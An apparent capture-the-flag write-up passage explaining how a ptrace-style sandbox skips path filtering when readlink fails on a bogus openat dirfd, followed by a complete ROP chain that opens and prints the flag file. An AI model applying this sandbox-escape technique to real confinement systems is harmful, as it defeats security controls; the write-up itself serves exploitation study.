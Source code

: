 Our sandbox reads `dirfd` into `dfd` variable - `int dfd = regs.rdi;`

then It makes concatenation of strings "/proc/"+str(sandboxed binary pid)+"/fd/"+str(dfd)

later it does:


```C
if (-1 != readlink(fdPath.c_str(), actualpath, sizeof(actualpath))) {
```

and here is the vulnerability - when readlink returns `-1` the sandbox goes ahead and doesn't make any filtering.
By proving an odd number like 0x100 will make readlink fail because there is no file descriptor of this number at our process. 
But when `pathname` argument is absolute this value is ommited inside of the syscall.

That's how we can bypass our sandbox.

The full ROP is below:

```
#read(stdin, FLAG_PATH_ADDR, bignum)
payload += p64(0x0000000000002267 + base) #: pop rax; ret;
payload += p64(constants.SYS_read)
payload += p64(0x000000000000225f + base) #: pop rdi; ret;
payload += p64(0x0) #fildes
payload += p64(0x0000000000002261 + base) #: pop rsi; ret;
payload += p64(FLAG_PATH_ADDR)
payload += p64(0x0000000000002265 + base) #: pop rdx; ret;
payload += p64(len(FLAG_PATH)+1)
payload += p64(0x0000000000002254 + base) # syscall; ret;

#openat(100, FLAG_PATH_ADDR, 0)
payload += p64(0x0000000000002267 + base) #: pop rax; ret;
payload += p64(constants.SYS_openat)
payload += p64(0x000000000000225f + base) #: pop rdi; ret;
payload += p64(0x100) #fildes
payload += p64(0x0000000000002261 + base) #: pop rsi; ret;
payload += p64(FLAG_PATH_ADDR)
payload += p64(0x0000000000002265 + base) #: pop rdx; ret;
payload += p64(0x0)
payload += p64(0x0000000000002254 + base) # syscall; ret;

#read(6, DATA_ADR, 0x9999) 
payload += p64(0x0000000000002267 + base) #: pop rax; ret;
payload += p64(constants.SYS_read)
payload += p64(0x000000000000225f + base) #: pop rdi; ret;
payload += p64(0x4) #fildes
payload += p64(0x0000000000002261 + base) #: pop rsi; ret;
payload += p64(DATA_ADDR)
payload += p64(0x0000000000002265 + base) #: pop rdx; ret;
payload += p64(0x9999)
payload += p64(0x0000000000002254 + base) # syscall; ret;

#write(1, DATA_ADR, 0x1000) 
payload += p64(0x0000000000002267 + base) #: pop rax; ret;
payload += p64(constants.SYS_write)
payload += p64(0x000000000000225f + base) #: pop rdi; ret;
payload += p64(0x1) #fildes
payload += p64(0x0000000000002261 + base) #: pop rsi; ret;
payload += p64(DATA_ADDR)
payload += p64(0x0000000000002265 + base) #: pop rdx; ret;
payload += p64(0x100)
payload += p64(0x0000000000002254 + base) # syscall; ret;
```
